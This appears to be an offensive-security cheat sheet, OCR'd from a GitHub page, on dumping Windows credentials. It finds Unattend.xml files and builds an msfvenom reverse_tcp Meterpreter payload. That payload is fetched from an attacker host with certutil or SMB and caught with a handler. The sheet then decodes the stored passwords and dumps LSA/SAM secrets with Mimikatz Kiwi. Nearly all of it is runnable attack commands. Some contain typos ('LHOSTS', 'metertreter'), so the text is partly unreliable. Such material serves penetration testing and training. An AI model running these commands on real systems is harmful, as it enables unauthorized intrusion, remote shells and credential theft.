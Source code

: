 ## Windows Credential Dumping

Searching for password in Windows Configuration Files

Unattended Windows Setup (UWS) is an automatic configuration file used to configure multiple machines in bulk. It typically contains administrative credentials, which should be erased as soon as the machine configuration is complete.
```
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Autounattend.xml
```
### Metasploit and Reverse Shell EXEC
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOSTS=10.10.10.2 LPORT=1234 -f exe > payload.exe
```
```
python -m SimpleHTTPServer 80
```
or
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
On the target machine for HTTP.
```
certutil -urlcache -f http://10.10.10.2/payload.exe payload.exe
```
For SMB server.
```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
```
On the attacker machine.
```
use multi/handler
set payload /windows/x64/metertreter/reverse_tcp
set options….
```
After executing the payload, I’ll gain access to a Meterpreter shell.
```
search -f Unattend.xml
download unattend.xml
```
If Plain text value is false, the password will be encrypted with base64.
```
base64 -d password.txt
```
We can now test the password.
```
psexec.py Administrator@10.10.10.1
```
### Dumping hashes with Mimikatz and Kiwi

Mimikatz needs administrative privileges.

#### Metaslpoit (Meterpreter) Kiwi
```
pgrep lsass
migrate 1234
load kiwi
? - help
creds_all
lsa_dump_sam
lsa_dump_secrets
cd C:\\
mkdir Temp
cd Temp
```
